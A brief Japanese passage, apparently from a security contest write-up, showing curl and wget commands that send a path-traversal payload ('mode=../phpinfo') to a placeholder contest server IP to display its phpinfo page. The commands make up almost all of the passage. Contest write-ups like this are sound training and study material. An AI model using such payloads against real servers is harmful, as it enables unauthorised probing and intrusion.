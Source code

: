 ![image alt text](Picture/image_1.png)

* 以下のコマンドによって出力できた。

<table>
  <tr>
    <td>$ curl MBSDサーバーIPアドレス -d "mode=../phpinfo&JSON={}"</td>
  </tr>
  <tr>
    <td>$ wget MBSDサーバーIPアドレス --post-data="mode=../phpinfo&JSON={}"</td>
  </tr>
</table>
